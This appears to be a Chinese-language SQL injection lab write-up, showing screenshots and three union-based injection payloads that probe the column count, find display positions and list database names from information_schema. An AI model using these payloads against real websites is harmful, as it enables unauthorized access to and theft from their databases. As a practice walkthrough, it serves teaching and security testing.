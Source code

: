 ![image-20211013195800039](./typora-user-images/image-20211013195800039.png)

#### 进行实验

判断检索的字段个数：`?id=1') order by 3 -- +`

![image-20211013200026489](./typora-user-images/image-20211013200026489.png)

查询报错的对应位置：`?id=-1') union select 1,2,3`

![image-20211013200905202](./typora-user-images/image-20211013200905202.png)

查询数据库名：`?id=-1') union select 1,2,group_concat(schema_name) from information_schema.schemata`

![image-20211013202705969](./typora-user-images/image-20211013202705969.png)
